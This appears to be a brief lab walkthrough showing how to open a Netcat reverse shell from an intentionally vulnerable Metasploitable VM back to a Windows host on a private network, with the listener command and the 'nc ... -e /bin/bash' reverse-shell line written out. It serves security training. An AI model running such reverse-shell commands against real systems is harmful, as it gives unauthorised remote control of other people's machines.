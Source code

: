 We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of Metasploitable using the physical machine.

To open a reverse shell, we need the IP address of the physical machine from which we will open the remote shell:

<img src="1.png" width="650">

The address is `192.168.1.228`.

Now we open a listener on port `5555` of the physical machine using the command `ncat -nlvp 5555`:

<img src="2.png" width="650">

From Metasploitable, we execute the command to open a remote shell to the physical machine's address `nc 192.168.1.228 5555 -e /bin/bash`:

<img src="3.png" width="650">

From Windows, we can see that the connection was successful:

<img src="4.png" width="650">

Now we can navigate the directories of Metasploitable from the Windows shell using the `ls` command:

<img src="5.png" width="650">